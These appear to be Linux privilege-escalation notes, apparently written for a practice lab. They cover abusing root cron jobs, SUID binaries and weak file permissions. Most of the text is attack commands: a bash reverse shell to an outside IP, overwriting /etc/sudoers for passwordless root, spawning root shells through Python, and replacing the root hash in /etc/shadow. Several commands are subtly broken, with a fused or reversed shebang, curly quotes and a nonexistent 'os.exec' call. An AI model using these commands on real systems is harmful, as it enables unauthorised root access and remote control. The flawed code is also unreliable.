 We need to find a job executed with root privilege to exploit. Use this command to list all cron jobs.
```
cat /etc/crontab
crontab -l
```
```
whoami
groups student
cat /etc/passwd
ls -al
cd /
grep -rnw /usr -e “/home/student/message”
ls -la /usr/local/share/copy.sh
```
If we discover a script, such as copy.sh, that has been executed with root privileges and is editable, we can insert this script into it (or replace it with a new file if it’s not the one to be directly executed).
This code is used to obtain a reverse shell for example.
```
#!/bin/bash bash -i >& /dev/tcp/192.164.224.4/41234 0>&1
```
This code is used to set the system to not ask for password after the command "sudo" is entered.
```
printf ‘!# /bin/bash\necho “student ALL=NOPASSWD:ALL” > /etc/sudoers’ >/usr/local/share/copy.sh
```
### SUID/SGID Binaries - [Reference](https://gtfobins.github.io)

#### SUID (Set Owner User ID)
Some useful command to search for this particular misconfiguration.
```
find / -perm -u=s -type f 2>/dev/null
find / -type f -perm -04000 -ls 2>/dev/null
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```
For example, if Python is in this list, we can use this command. to spawn a shell with root privileges.
```
./python -c 'import os; os.exec("/bin/sh", "sh", "-p")'
```
or
```
python -c ‘import pty; pty.spawn(“/bin/bash”)’
```

* suid-so - vulnerable to shared object injection
* suid-env - vulnerable to environment variables changing. ENV command can be abused to change a service specific path.


### Weak Permissions

We can search for files that aren't symbolic links and  are “world-writable” (writable by others, not just the file owner or group).
```
find / -not -type l -perm -o+w
```
#### Writable /etc/shadow
```
mkpasswd -m sha-512 newpasswordhere
```
Enter the new password in place of the existing one for the root account.
